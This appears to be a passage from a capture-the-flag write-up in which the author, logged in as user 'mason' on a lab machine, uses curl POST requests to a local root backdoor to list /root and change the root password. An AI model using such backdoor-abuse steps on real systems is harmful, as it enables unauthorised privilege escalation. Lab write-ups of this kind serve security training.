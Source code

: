Since now we now `mason` password, we may interact with this backdoor, as it needs a password.

**Also, we don't know it needs a GET request or a POST request. Let's try GET request first:**
```
mason@lunizz:~$ curl 'http://localhost:8080?password={Redacted}&cmdtype=lsla'
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

**Nope. Maybe POST request?**
```
mason@lunizz:~$ curl 'http://localhost:8080' -X POST -d 'password={Redacted}&cmdtype=lsla'
total 44
drwx------  6 root root 4096 Feb 28  2021 .
drwxr-xr-x 25 root root 4096 Mar 25  2021 ..
lrwxrwxrwx  1 root root    9 Feb 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3771 Feb 10  2021 .bashrc
drwx------  3 root root 4096 Feb 12  2021 .cache
drwx------  3 root root 4096 Feb 12  2021 .gnupg
-rw-r--r--  1 root root 1044 Feb 28  2021 index.php
drwxr-xr-x  3 root root 4096 Feb  9  2021 .local
lrwxrwxrwx  1 root root    9 Feb 11  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root   38 Feb 28  2021 r00t.txt
-rw-r--r--  1 root root   66 Feb 28  2021 .selected_editor
drwx------  2 root root 4096 Feb  9  2021 .ssh
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

Yes!! The POST request works!

**Hmm... What if I use the `passwd` command type?**
```
mason@lunizz:~$ curl 'http://localhost:8080' -X POST -d 'password={Redacted}&cmdtype=passwd'
<br>Password Changed To :{Redacted}<br>**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```
